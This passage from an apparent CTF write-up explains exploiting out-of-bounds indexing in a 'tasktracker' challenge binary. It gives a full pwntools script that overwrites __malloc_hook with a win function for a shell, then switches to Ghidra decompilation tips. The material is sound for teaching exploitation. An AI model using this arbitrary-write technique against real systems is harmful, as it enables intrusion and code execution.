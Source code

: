 Such A & B can be found at 0x6cc068, pointing to 0x6c800. These vales were found by scrolling backwards from the global `tasks[50]` array to find a pointer that points to another value in the `.bss`.

We have to keep in mind that we have to pass a index to into the `tasks[50]` array, so we have to find the difference between our target address and the start of the `tasks[50]` array, divded by 0x10, the size of a task.

The full exploit is as below:

```py
from pwn import *

if 'REMOTE' in args:
    conn = remote("ctf-ptb1.balancedcompo.site 9997")
else:
    conn = process("./tasktracker")

target = 0x06cb788 # malloc_hook
win = 0x0400d51 

# for easier calculation of the index that we should pass into `change_task`
def ptr_to(x):
    note = 0x06ccbc0 # tasks[50]
    return (x-note)/0x10-1

def add(len, task):
    conn.sendlineafter("choice:", "2")
    conn.sendlineafter("name:", str(len))
    conn.sendafter("task:", task)

def change(idx, len, task):
    conn.sendlineafter("choice:", "3")
    conn.sendlineafter("change:", str(idx))
    conn.sendlineafter("name:", str(len))
    conn.sendafter("name:", task)

# add a task, so that can change is later
add(0x10, b'a'*0x10)
# change B to point to target = __malloc_hook. Note that the p64(1) is just for padding
change(ptr_to(0x06cc068), 0x10, p64(1) + p64(target))
# change __malloc_hook to point to win
change(ptr_to(0x6cb800+0x10), 8, p64(win))
# just to trigger the call to `malloc`, and thus `__malloc_hook` and our `win` function
add(0x40, b'a'*0x10)

conn.interactive()
```

## Tips
### Decompilation
#### Basics
- `Rename`, `Change Data Type`: Use these to rename functions and variables and change their types (how useful is undefinedX as a type, anyway?)
- `Auto-create Structure`, `Structure Editor -> Rename Field`: Create structs and make their field names conistent. This, paired with the above `Change Data Type` means that most code using structs will be better to look at.
